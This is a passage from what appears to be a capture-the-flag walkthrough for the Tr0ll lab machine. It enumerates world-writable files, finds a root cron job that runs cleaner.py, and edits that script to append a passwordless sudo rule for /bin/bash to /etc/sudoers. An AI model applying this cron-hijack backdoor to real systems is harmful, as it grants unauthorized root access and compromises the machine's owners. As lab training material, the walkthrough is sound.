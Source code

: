 The server closes the connection every five minutes, kicking us out of the system.

When listing the writable files the **cronlog** and **cleaner.py** files look interesting.

```bash
overflow@troll:/var/www/html$ find / -writable -type f 2>/dev/null | egrep -v 'proc|sys'
/srv/ftp/lol.pcap
/var/tmp/cleaner.py.swp
/var/www/html/sup3rs3cr3tdirlol/roflmao
/var/log/cronlog
/lib/log/cleaner.py
```

The **cleaner.py** script has read, write and execute permissions for all users, we see that it deletes the content inside the /tmp directory.

```bash
overflow@troll:/$ ls -la /lib/log/cleaner.py
-rwxrwxrwx 1 root root 172 Jan 26 20:55 /lib/log/cleaner.py

overflow@troll:/var/www/html$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

The **cronlog** file shows that the **cleaner.py** script executes every two minutes.

```bash
overflow@troll:/$ ls -la /var/log/cronlog
-rwxrwxrwx 1 root root 23 Aug 13  2014 /var/log/cronlog

overflow@troll:/var/www/html$ cat /var/log/cronlog
*/2 * * * * cleaner.py
overflow@troll:/var/www/html$
```


## Privilege Escalation
### Cron Job

We edit the **cleaner.py** script as follows to add to the user overflow to the sudoers file allowing him to execute /bin/bash without password.

```bash
overflow@troll:/$ cat /lib/log/cleaner.py                                                                                                                           
#!/usr/bin/env python                                                                                                                                               
import os                                                                                                                                                           
import sys                                                                                                                                                          
try:                                                                                                                                                                
        os.system('rm -r /tmp/* ')                                                                                                                                  
        os.system('echo "overflow ALL=(ALL) NOPASSWD: /bin/bash" >> /etc/sudoers')                                                                                   
except:                                                                                                                                                             
        sys.exit()
        
overflow@troll:/$
```